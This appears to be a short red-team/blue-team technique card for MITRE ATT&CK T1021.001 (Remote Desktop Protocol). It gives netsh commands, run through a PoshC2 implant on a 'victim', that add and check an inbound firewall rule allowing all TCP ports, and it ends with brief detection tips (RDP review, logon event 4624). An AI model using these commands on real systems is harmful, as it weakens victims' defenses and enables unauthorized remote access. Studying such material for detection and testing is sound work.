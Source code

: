 # [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

## Exploit syntax:

```powershell
# Run the following command in your posh implant to your victim:

sharpps netsh.exe advfirewall firewall add rule name="enablerdp" dir=in action=allow protocol=tcp localport=any enable=yes

# Verify the
firewall rule has been created:
sharpps netsh.exe advfirewall firewall show rule status=enabled name=enablerdp 

```

* Note, add syntax for xfreerdp once added to parrot to utilize newly opened firewall on victim## Detection Technique:
* Investigate all remote desktop connections.
* Investigate all event code 4624 ( remote logons )

---

## Resouces